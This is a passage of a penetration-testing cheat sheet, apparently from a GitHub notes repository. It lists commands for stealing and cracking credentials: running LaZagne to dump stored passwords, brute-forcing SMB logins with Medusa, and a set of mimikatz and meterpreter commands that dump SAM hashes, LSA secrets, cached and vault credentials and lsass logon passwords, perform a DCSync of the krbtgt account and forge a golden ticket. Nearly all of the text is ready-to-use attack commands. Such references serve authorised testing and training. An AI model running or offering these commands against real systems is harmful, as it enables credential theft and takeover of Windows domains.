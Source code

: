 ## LaZagne

> https://github.com/AlessandroZ/LaZagne

```cmd
C:\> laZagne.exe all
```

## LUKS

### Extracting LUKS Header

```console
$ dd if=backup.img of=header.luks bs=512 count=4097
```

## Medusa

```console
$ medusa -h <RHOST> -U usernames.txt -P wordlist.txt -M smbnt
```

## mimikatz

> https://github.com/gentilkiwi/mimikatz

### Common Commands

```console
mimikatz # token::elevate
mimikatz # token::revert
mimikatz # vault::cred
mimikatz # vault::list
mimikatz # lsadump::sam
mimikatz # lsadump::secrets
mimikatz # lsadump::cache
mimikatz # lsadump::dcsync /<USERNAME>:<DOMAIN>\krbtgt /domain:<DOMAIN>
```

### Execute mimikatz Inline

This is helpful when executing within a `Evil-WinRM` session.

```cmd
C:\> mimikatz.exe "sekurlsa::logonpasswords" "exit"
```

### Dump Hashes

```cmd
C:\> .\mimikatz.exe
mimikatz # sekurlsa::minidump /users/admin/Desktop/lsass.DMP
mimikatz # sekurlsa::LogonPasswords
meterpreter > getprivs
meterpreter > creds_all
meterpreter > golden_ticket_create
```
